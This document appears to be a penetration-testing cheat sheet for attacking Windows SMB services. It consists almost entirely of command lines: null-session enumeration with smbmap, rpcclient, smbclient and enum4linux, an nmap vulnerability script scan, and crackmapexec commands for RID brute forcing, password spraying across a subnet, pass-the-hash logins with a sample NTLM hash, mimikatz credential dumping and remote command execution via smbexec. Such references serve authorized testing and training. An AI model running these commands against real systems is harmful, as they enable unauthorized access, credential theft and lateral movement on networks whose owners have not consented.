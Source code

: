 ```
smbmap -H $ip
rpcclient -U "" -N $ip
smbclient -N -L \\\\XX.XX.XX.XX\\
smbclient \\\\$ip\\[share name]
smbclient -L XX.XX.XX.XX--option='client min protocol=NT1'
smbclient -L //XX.XX.XX.XX/ --option='client min protocol=NT1'
smbclient \\\\XX.XX.XX.XX\\'bob share' --option='client min protocol=NT1'
```


## Check for Vulnerabilities

```
nmap --script smb-vuln* -p 139,445 $ip
```


## Overall Scan

```
enum4linux -a $ip
```


## Manual Inspection

```
smbver.sh $ip (port)
```

## rpcclient


```
rpcclient -U '' $ip
Password:
rpcclient $> srvinfo # operating system version
rpcclient $> netshareenumall # enumerate all shares and its paths
rpcclient $> enumdomusers # enumerate usernames defined on the server
rpcclient $> getdompwinfo # smb password policy configured on the server
```


## CrackMapExe

```
crackmapexec -u 'guest' -p '' --shares $ip
crackmapexec -u 'guest' -p '' --rid-brute 4000 $ip
crackmapexec -u 'guest' -p '' --users $ip
crackmapexec smb XX.XX.XX.XX/24 -u Administrator -p P@ssw0rd
crackmapexec smb XX.XX.XX.XX/24 -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B -M mimikatz XX.XX.XX.XX/24
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B -x whoami $ip
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B --exec-method smbexec -x whoami $ip# reliable pth code execution

```

